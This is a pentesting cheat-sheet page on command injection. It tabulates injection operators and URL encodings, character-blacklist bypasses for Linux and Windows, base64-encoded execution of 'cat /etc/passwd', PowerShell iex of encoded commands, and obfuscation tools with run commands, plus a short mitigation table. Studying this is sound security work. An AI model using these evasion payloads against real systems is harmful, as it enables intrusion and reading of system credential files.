 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/web-pentesting-checklist/3-command-injection/","noteIcon":"","created":"2025-04-15T14:11:19.612-04:00"}
---
```

















| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                         |
| ---------------------- | ----------------------- | ------------------------- | -------------------------------------------- |
| Semicolon              | `;`                     | `%3b`                     | Executes both commands sequentially          |
| New Line               | `\n`                    | `%0a`                     | Executes both commands sequentially          |
| Background             | `&`                     | `%26`                     | Executes both commands; second may run first |
| Pipe                   | `\|`                    | `%7c`                     | Pipes output of first command to second      |
| AND                    | `&&`                    | `%26%26`                  | Executes second command if first succeeds    |
| OR                     | `\|`                    | `%7c%7c`                  | Executes second command if first fails       |
| Sub-Shell              | ``                      | `%60%60`                  | Executes command within a sub-shell (Linux)  |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Executes command within a sub-shell (Linux)  |
| Tab                    |                         | `%09`                     |                                              |
| {IFS}                  |                         |                           |                                              |
| Brace e.g. `{ls,-la}`  |                         |                           |                                              |

| Injection Type                          | Operators                           |
| --------------------------------------- | ----------------------------------- |
| SQL Injection                           | ' , ; -- /* */                      |
| Command Injection                       | ; &&                                |
| LDAP Injection                          | * ( ) &                             |
| XPath Injection                         | ' or and not substring concat count |
| OS Command Injection                    | ; &                                 |
| Code Injection                          | ' ; -- /* */ $() ${} #{} %{} ^      |
| Directory Traversal/File Path Traversal | ../ ..\\ %00                        |
| Object Injection                        | ; &                                 |
| XQuery Injection                        | ' ; -- /* */                        |
| Shellcode Injection                     | \x \u %u %n                         |
| Header Injection                        | \n \r\n \t %0d %0a %09              |


| **Bypassing Blacklisted Characters** | **Linux**                                                                                                                                                                                                                          | **Windows**                                                                                                                                                                                                                                                                                                                         |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Obfuscation**                      | `w'h'o'am'i`, `who$@ami`                                                                                                                                                                                                           | `who^ami`                                                                                                                                                                                                                                                                                                                           |
| **Reverse Execution**                | `(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                                                                                                                                                                  | `"whoami"[-1..-6] -join ''`                                                                                                                                                                                                                                                                                                         |
|                                      | ```<br>printenv<br>$ echo ${PATH}<br>/usr/local/bin:/usr/bin:/bin:/usr/games<br><br>$ echo ${PATH:0:1}<br>/<br>c<br>$ echo ${LS_COLORS:10:1}<br><br>;<br>```                                                                       | ```<br>Get-ChildItem Env<br>echo %HOMEPATH:~6,-11%<br><br>$env:HOMEPATH[0]<br><br>$env:PROGRAMFILES[10]<br>```                                                                                                                                                                                                                      |
| Encoding                             | <br>```<br>$ echo -n 'cat /etc/passwd \| grep 33' \| base64<br>Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==<br>$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)<br>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br>``` | ```<br>>  [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))<br>dwBoAG8AYQBtAGkA<br><br>$ echo -n whoami \| iconv -f utf-8 -t utf-16le \| base64<br>dwBoAG8AYQBtAGkA<br><br>> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"<br>21y4d<br>``` |
|                                      |                                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                                                                                     |

| **Mitigation Strategies**    | **Implementation**                                        |
| ---------------------------- | --------------------------------------------------------- |
| **Input Validation**         | Allow only expected characters and formats                |
| **Use Safe APIs**            | Avoid `system()`, use parameterized queries               |
| **Least Privilege**          | Ensure applications run with minimal necessary privileges |
| **Regular Security Testing** | Conduct automated scanning and manual penetration testing |
| **Stay Updated**             | Keep software and dependencies up to date                 |

| **Evasion Tools** | **Linux**                                                | **Windows**                                                       |
| ----------------- | -------------------------------------------------------- | ----------------------------------------------------------------- |
| **Tool**          | **Bashfuscator**                                         | **Invoke-DOSfuscation**                                           |
| **Clone Command** | `git clone https://github.com/Bashfuscator/Bashfuscator` | `git clone https://github.com/danielbohannon/Invoke-DOSfuscation` |
| **Execution**     | `./bashfuscator -c 'cat /etc/passwd'`                    | `Import-Module .\Invoke-DOSfuscation.psd1`                        |

---

